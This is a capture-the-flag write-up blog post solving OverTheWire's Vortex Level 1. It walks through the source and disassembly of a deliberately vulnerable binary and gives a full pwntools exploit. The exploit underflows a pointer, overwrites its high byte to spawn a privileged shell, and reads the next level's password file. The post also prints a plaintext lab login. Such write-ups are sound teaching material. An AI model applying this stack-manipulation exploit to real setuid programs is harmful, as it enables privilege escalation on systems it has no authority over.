 ```yaml
---
layout: post
title:  "Vortex Level 1"
date:   2015-10-21 02:20
categories: vortex wargame web overthewire
author: Natri
---
```

This is a solution guide to the Vortex Level 01 at <a href="http://overthewire.org/wargames/vortex/vortex1.html">overthewire</a>. This write-up was created on 21 October 2015.
<!--break-->

1. Once logged in, navigate to /vortex/
2. Execute program and see what a standard output gives
3. Examine the source code given
4. Write the exploit

<h2>Standard Output</h2>
{% highlight text %}
./vortex1    
aaaaaaaaaa
[ 0 0 0 0 1 0 0 0 0 e0 fc f7 0 d0 ff f7 cb 6b fe f7 0 c0 ff f7 0 10 0 0 1 0 0 0 8c 6b fe f7 0 d0 ff f7 0 0 0 0 d8 d5 ff ff db 70 fe f7 f0 da ff f7 b8 e5 fc f7 1 0 0 0 1 0 0 0 0 0 0 0 ac 55 ff f7 0 0 0 0 0 0 0 0 5c d5 ff f7 a8 d5 ff ff c8 d5 ff ff 0 0 0 0 ac 55 ff f7 5c d5 ff f7 c8 d5 ff ff ac c4 fd f7 dc c2 fd f7 cd 4d fe f7 fd 5f e3 f7 ff 82 4 8 0 0 0 0 3c c3 fd f7 0 0 0 0 0 c0 fd f7 40 0 0 0 2 0 0 0 7d 82 4 8 24 dc ff f7 bc 26 e2 f7 0 d0 ff f7 b8 6c e2 f7 1 0 0 0 b8 e2 fc f7 24 55 fe f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 b8 e2 fc f7 3 0 0 0 f0 d5 ff ff 71 ea b1 7 2e 4e 3d f6 c8 6e e2 f7 f8 fb e2 f7 56 d ff f7 0 d0 ff f7 e2 f4 fd f7 5c d5 ff f7 f0 da ff f7 0 0 0 0 61 61 61 61 61 61 61 61 61 61 0 0 1 0 0 0 d3 8 0 0 e8 e2 fc f7 0 e0 fc f7 d4 82 4 8 38 4 e3 f7 5c 82 4 8 1 0 0 0 0 0 2 0 b6 2e ff f7 2 0 0 0 0 d0 ff f7 34 d7 ff ff f0 da ff f7 f0 d6 ff ff aa 57 fe f7 a0 d6 ff ff 5c 82 4 8 a8 d6 ff ff 94 da ff f7 0 0 0 0 e8 e2 fc f7 1 0 0 0 0 0 0 0 1 0 0 0 38 d9 ff f7 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 3 0 0 0 9 0 0 0 3f 0 c0 4 0 0 0 0 34 d7 ff ff a8 d6 ff ff a0 d6 ff ff d4 82 4 8 38 d9 ff f7 0 0 0 0 c2 0 0 0 b6 75 eb f7 ff ff ff ff ce d6 ff ff f8 fb e2 f7 53 5f e5 f7 0 0 0 0 0 0 ca 0 1 0 0 0 a9 83 4 8 bf d8 ff ff 2f 0 0 0 0 a0 4 8 22 87 4 8 1 0 0 0 94 d7 ff ff 9c d7 ff ff d 61 e5 f7 c4 a3 fc f7 0 d0 ff f7 db 86 4 8  ]
{% endhighlight %}
So we can see that it does input our 'aaaa' in the middle of the buffer as expected by the source code.

<h2>Examine Source Code</h2>
The end state is that we want the following code to run and in order to do that we need to make sure the unsigned integer value at ptr is 0xca000000 when AND with 0xff000000
{% highlight c %}
define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
{% endhighlight %}

Looking at how the variables are declared:

1. <strong>buf</strong> is an array of char
2. <strong>ptr</strong> is a pointer to location of buf + half the size of buf; so esentially it is pointing to the 256th element in buf at the time of declaration [See indexing of pointers](http://boredzo.org/pointers/#indexing). Any time we call ptr we are getting an address value


{% highlight c %}
unsigned char buf[512];
unsigned char *ptr = buf + (sizeof(buf)/2);
unsigned int x;
{% endhighlight %}

What if we didn't have the source code, how would we find this vulnerability? Look at the disassembly of the code (see bottom section on 'Determining the stack')

The vulnerability in this program is in the loop section of code.  There are three types of characters that can make an action happen:

* <strong>A New Line</strong>
   * This case is triggered when we press return
   * Will print out what is in <strong>buf</strong>
* <strong>Backslash '\\'</strong>
   * Decriments <strong>ptr</strong>
   * This is good because <strong>ptr</strong> is a pointer and by decrimenting it the address decriments
   * <strong>KEY: </strong>It is this code that is going to allow us to do a buffer overflow at the bottom of the stack
* <strong>Anything Else</strong>
   * Executes the <strong>e()</strong> function
   * Checks to see if <strong>ptr</strong> has gone pass <strong>buf</strong> array size; to prevent buffer overflow at the top of the stack
   * Writes the value of current char into the address <strong>ptr</strong> is currently at; this is how we are going to get <strong>0xca</strong> into the stack

{% highlight c linenos %}
while((x = getchar()) != EOF) {
   switch(x) {
      case '\n': print(buf, sizeof(buf)); continue; break;
      case '\\': ptr--; break;
      default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
   }
}
{% endhighlight %}

<h2>Write the expliot</h2>
We have all the tools we need to take advantage of the buffer overflow at the bottom of the stack.

1. Determine where to write
2. Take <strong>ptr</strong> to that point
3. Write the value <strong>0xca</strong>
3. Get the function <strong>e()</strong> to execute
4. Grab the flag

{% highlight python linenos %}
from pwn import *
import time

HOST = 'votex.labs.overthewire.org'
USERNAME = 'vortex1'
PASS = 'Gq#qu3bF3'

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex1' % location
password_file = '/etc/vortex_pass/vortex2'
r = s.run(file_name)

#need to overwrite the MSB of the ptr variable; through stack analysis I found this
buff_size = 512
ptr_loc = buff_size / 2
getchar_size = 4

#location of where we want to write 0xca so we can pass the if statement and setresuid
where_to_write = ptr_loc + getchar_size + 1

r.send('\\' * where_to_write) #move ptr to the place we want to write
r.send('\xca') #write the value we want
r.send('\\') #send the pointer back one
r.send('\xff') #this value doesn't matter just want to make sure the case that initiates function e() gets triggered

#get rid of any junk from the buffer
r.clean()

#give time for hack to work
time.sleep(1)

r.sendline('cat %s' % password_file) #read the password file
log.success('Password: %s' % r.recv().strip()) #log the password on screen

{% endhighlight %}
<h2>Determining the Stack</h2>
To find out vulnerabilities to smash the stack we need to see how the stack is made and utilized.  Looking at the disassembly of the main procedure below lets build the stack:

1. 080485c8: makes the stack 0x220 in size
2. 080485ce and 080485d4: creates the [stack canary](https://xorl.wordpress.com/2010/10/14/linux-glibc-stack-canary-values/) to ensure the top of the stack doesn't get corrupted; so since it puts an address at esp+0x21c that is the 0x4 size needed for an address of 32-bit address
3. Set the <strong>ptr</strong> address:
   1. 080485dd: grabs the memory location of the buffer array
   2. 080485e1: takes memory address and adds 0x100 (this is 256 decimal which is half the buffer size; matches source code)
   3. 080485e6: Puts that value onto the stack
4. 0804868e and 08048693: the <strong>getchar</strong> c function is called and value is stored in stack at memory location esp+0x18
4. Now our stack looks like this


| Variable | Position on the stack (esp + x) | stack size | notes |
| ptr | 0x14 | 4 | initial value should be [buf+0x100] |
| getchar value | 0x18 | 0x4 |
| buf variable | 0x1c | 0x200 |
| canary | 0x21c | 4 |

So now we know what the stack looks like so we can manipulate it.  So we need to set the value in <strong>ptr</strong> and can do so by manipulating <strong>ptr</strong> until we get to where we can modify the MSB of <strong>ptr</strong>.  So <strong>ptr</strong> starts at 0x11c (0x1c + 0x100) and we want to get to 0x17 (MSB of <strong>ptr</strong> since words/addresses are read in reverse order) therefore we want to go back 0x105 (261).

{% highlight text linenos %}
main:
080485c0         push       ebp                                                 ; XREF=_start+23
080485c1         mov        ebp, esp
080485c3         push       esi
080485c4         push       ebx
080485c5         and        esp, 0xfffffff0
080485c8         sub        esp, 0x220
080485ce         mov        eax, dword [gs:0x14]
080485d4         mov        dword [ss:esp+0x21c], eax
080485db         xor        eax, eax
080485dd         lea        eax, dword [ss:esp+0x1c]
080485e1         add        eax, 0x100
080485e6         mov        dword [ss:esp+0x14], eax
080485ea         jmp        0x804868e

080485ef         mov        eax, dword [ss:esp+0x18]                            ; XREF=main+220
080485f3         cmp        eax, 0xa
080485f6         je         0x80485ff

080485f8         cmp        eax, 0x5c
080485fb         je         0x8048615

080485fd         jmp        0x804861c

080485ff         mov        dword [ss:esp+0x4], 0x200                           ; argument #2 for method print, XREF=main+54
08048607         lea        eax, dword [ss:esp+0x1c]
0804860b         mov        dword [ss:esp], eax                                 ; argument #1 for method print
0804860e         call       print
08048613         jmp        0x804868e

08048615         sub        dword [ss:esp+0x14], 0x1                            ; ptr back one, XREF=main+59
0804861a         jmp        0x804868e

0804861c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+61
08048620         and        eax, 0xff000000
08048625         cmp        eax, 0xca000000
0804862a         jne        0x804866b

0804862c         call       j_geteuid
08048631         mov        esi, eax
08048633         call       j_geteuid
08048638         mov        ebx, eax
0804863a         call       j_geteuid
0804863f         mov        dword [ss:esp+0x8], esi
08048643         mov        dword [ss:esp+0x4], ebx
08048647         mov        dword [ss:esp], eax
0804864a         call       j_setresuid
0804864f         mov        dword [ss:esp+0x8], 0x0
08048657         mov        dword [ss:esp+0x4], 0x804876a                       ; argument "arg0" for method j_execlp
0804865f         mov        dword [ss:esp], 0x804876d                           ; "/bin/sh", argument "file" for method j_execlp
08048666         call       j_execlp

0804866b         lea        eax, dword [ss:esp+0x1c]                            ; XREF=main+106
0804866f         add        eax, 0x200
08048674         cmp        dword [ss:esp+0x14], eax
08048678         jbe        0x804867c

0804867a         jmp        0x804868d

0804867c         mov        eax, dword [ss:esp+0x14]                            ; XREF=main+184
08048680         lea        edx, dword [ds:eax+0x1]
08048683         mov        dword [ss:esp+0x14], edx
08048687         mov        edx, dword [ss:esp+0x18]
0804868b         mov        byte [ds:eax], dl

0804868d         nop                                                            ; XREF=main+186

0804868e         call       j_getchar                                           ; XREF=main+42, main+83, main+90
08048693         mov        dword [ss:esp+0x18], eax
08048697         cmp        dword [ss:esp+0x18], 0xffffffff
0804869c         jne        0x80485ef

080486a2         mov        dword [ss:esp], 0x8048775                           ; "All done", argument "s" for method j_puts
080486a9         call       j_puts
080486ae         mov        eax, 0x0
080486b3         mov        ecx, dword [ss:esp+0x21c]
080486ba         xor        ecx, dword [gs:0x14]
080486c1         je         0x80486c8

080486c3         call       j___stack_chk_fail

080486c8         lea        esp, dword [ss:ebp+var_8]                           ; XREF=main+257
080486cb         pop        ebx
080486cc         pop        esi
080486cd         pop        ebp
080486ce         ret        
           ; endp
080486cf         nop        
{% endhighlight %}
